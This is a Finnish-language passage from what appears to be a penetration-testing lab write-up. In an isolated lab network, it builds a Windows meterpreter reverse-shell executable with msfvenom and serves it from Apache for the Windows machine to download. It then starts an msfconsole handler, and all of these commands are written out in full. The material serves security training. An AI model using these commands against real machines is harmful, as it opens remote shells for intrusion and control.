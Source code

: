 Windowsin palomuuriasetusten säätämisen jälkeen Linux-koneella voidaan pingata Windows-konetta:

![h2_intnet_4_linux](https://github.com/Fincer/penetration-testing/blob/master/images/h2_intnet_4_linux.png)

Siirrytään jälleen Kali Linux:n näkymään. Tässä vaiheessa oletamme, että paketti `metasploit-framework` on asennettu jo järjestelmään.

Varmistetaan, että verkkoliitännät toimivat halutulla tavalla (`ifconfig`):

![h2_linux_nifs](https://github.com/Fincer/penetration-testing/blob/master/images/h2_linux_nifs.png)

Suoritetaan komento `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.13.101 lport=4444 -f exe -a x86 > ~/kali.exe`:

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.13.101 lport=4444 -f exe -a x86 > ~/kali.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes

```

missä `10.13.13.101` on Kali Linuxin `intnet`-verkossa oleva IPv4-osoite, ja yhteysportti on `4444`

Asennetaan Kali Linux:lle HTTPD-daemon Apache 2, kytketään päälle sen `userdir` moduuli, luodaan käyttäjän `kali` kotihakemistoon alikansio `public_html` ja siirretään `kali.exe` sinne. Käynnistetään Apache 2 vielä tämän jälkeen uudelleen.

```
sudo apt-get update && \
sudo apt-get install -y apache2 && \
sudo a2enmod userdir && \
mkdir -p ~/public_html && \
mv ~/kali.exe ~/public_html/ && \
sudo systemctl restart apache2 ; systemctl is-active apache2

```

Avataan verkkoselain Windows-koneella, ja kirjoitetaan osoitekenttään `http://10.13.13.101/~kali/`:

![h2_windows_webview_kali](https://github.com/Fincer/penetration-testing/blob/master/images/h2_windows_webview_kali.png)

Ladataan Windows-koneelle kuvassa näkyvä tiedosto `kali.exe`, mutta ei suoriteta sitä vielä.

Siirrytään nyt Kali Linux:iin, ja suoritetaan komento `msfconsole`.

`msfconsole`-näkymässä suoritetaan seuraavat komennot:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.13.13.101
set lport 4444
exploit
```
